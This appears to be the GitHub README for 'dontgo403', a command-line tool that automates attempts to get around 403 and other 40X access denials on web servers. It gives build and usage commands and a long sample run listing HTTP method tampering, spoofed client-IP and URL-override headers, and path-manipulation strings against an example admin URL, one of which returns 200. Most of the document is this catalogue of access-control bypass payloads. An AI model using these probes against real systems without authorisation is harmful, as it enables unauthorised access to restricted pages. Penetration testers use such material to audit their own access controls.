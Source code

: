 <p align="center">
<img src="https://i.imgur.com/0vLHCHd.png" width="600" height="100" >
</p>

[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

dontgo403 is a tool to bypass 40X errors.

### Installation
```bash
git clone https://github.com/devploit/dontgo403; cd dontgo403; go get; go build
```

### Options
```bash
./dontgo403 -h

Command line application that automates different attempts to bypass 40X codes

Usage:
  dontgo403 [flags]

Flags:
  -h, --help               help for dontgo403
  -p, --proxy string       Proxy URL. For example: http://127.0.0.1:8080
  -u, --uri string         Target URL
  -a, --useragent string   Set the User-Agent string (default 'dontgo403/0.1')
```

### Example of usage
```sh
./dontgo403 -u https://server.com/admin

[+] HTTP METHODS
TRACE: 405
CONNECT: 400
PUT: 405
POST: 405
OPTIONS: 405
DELETE: 405
HEAD: 200
GET: 403

[+] VERB TAMPERING
Forwarded localhost: 403
X-Forwarded-By localhost: 403
X-Forwarded-Server 127.0.0.1: 403
X-Real-IP 127.0.0.1: 403
X-Forwarded-Host 127.0.0.1: 403
X-Original-URL /admin: 403
X-Host localhost: 403
Forwarded 127.0.0.1: 403
True-Client-IP 127.0.0.1: 403
X-Override-URL /admin: 403
X-Forwarded 127.0.0.1: 403
X-HTTP-Host-Override 127.0.0.1: 403
X-Forwarded localhost: 403
X-Host 127.0.0.1: 403
X-Client-IP 127.0.0.1: 200 <---- 200, OK
Client-IP 127.0.0.1: 403
X-Forwarded-For 127.0.0.1: 403
X-Remote-Addr 127.0.0.1: 403
X-Forwarded-By 127.0.0.1: 403
Forwarded-For-Ip 127.0.0.1: 403
X-Forwarded-Host localhost: 403
X-Forwarded-For localhost: 403
Forwarded-For 127.0.0.1: 403
Referer /admin: 403
Forwarded-For localhost: 403
X-Forwarded-For-Original localhost: 403
X-Rewrite-URL /admin: 403
X-Remote-IP 127.0.0.1: 403
X-Forwarded-Server localhost: 403
X-Originating-IP 127.0.0.1: 403
X-HTTP-Method-Override PUT: 403
X-Forward 127.0.0.1: 403
X-Remote-Addr localhost: 403
X-Custom-IP-Authorization 127.0.0.1: 403
X-Forwarded-For-Original 127.0.0.1: 403
X-Forward localhost: 403
X-Forward-For 127.0.0.1: 403

[+] CUSTOM PATHS
End path ..\;/: 404
End path //: 403
End path : 403
End path ??: 403
End path : 403
End path ?: 403
End path /: 403
End path /.: 403
Mid path /.\;/: 404
Mid path \;foo=bar/: 403
Mid path /./: 403
Mid path /%2e/: 403
```

### Contact
[Twitter](https://www.twitter.com/devploit), [Telegram](https://t.me/devploit)